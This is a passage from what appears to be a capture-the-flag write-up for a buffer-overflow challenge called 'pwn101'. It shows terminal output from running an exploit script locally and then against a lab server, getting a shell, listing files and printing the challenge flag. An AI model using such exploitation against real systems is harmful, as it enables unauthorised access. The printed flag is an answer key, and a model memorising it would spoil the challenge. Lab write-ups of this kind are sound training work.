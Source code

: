 ```
└─$ python3 exploit.py
[+] Starting local process './pwn101.pwn101': pid 18034
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
$ ls -al
total 28
drwxr-xr-x 2 mark mark  4096 Feb 14 15:44 .
drwxr-xr-x 3 mark mark  4096 Feb 14 15:44 ..
-rw-r--r-- 1 mark mark  1032 Feb 14 15:44 exploit.py
-rwxr-xr-x 1 mark mark 12760 Feb 14 15:30 pwn101.pwn101
$ 
```

It works now i'll run it on the remote server

```
└─$ python3 exploit.py REMOTE 10.10.210.174  9001
[+] Opening connection to 10.10.210.174 on port 9001: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
$ ls -al
total 48
drwx------  3 pwn101 pwn101  4096 Feb  8  2022 .
drwxr-xr-x 12 root   root    4096 Feb  8  2022 ..
lrwxrwxrwx  1 pwn101 pwn101     9 Feb  8  2022 .bash_history -> /dev/null
-rw-r--r--  1 pwn101 pwn101   220 Apr  4  2018 .bash_logout
-rw-r--r--  1 pwn101 pwn101  3771 Apr  4  2018 .bashrc
drwxrwxr-x  3 pwn101 pwn101  4096 Feb  8  2022 .local
-rw-r--r--  1 pwn101 pwn101   807 Apr  4  2018 .profile
-rwxrwxrwx  1 pwn101 pwn101    32 Jan 28  2022 flag.txt
-rwxrwxr-x  1 pwn101 pwn101 12760 Feb  8  2022 pwn101
-rwxrwxrwx  1 pwn101 pwn101  1137 Feb  8  2022 pwn101.c
$ cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
$
```
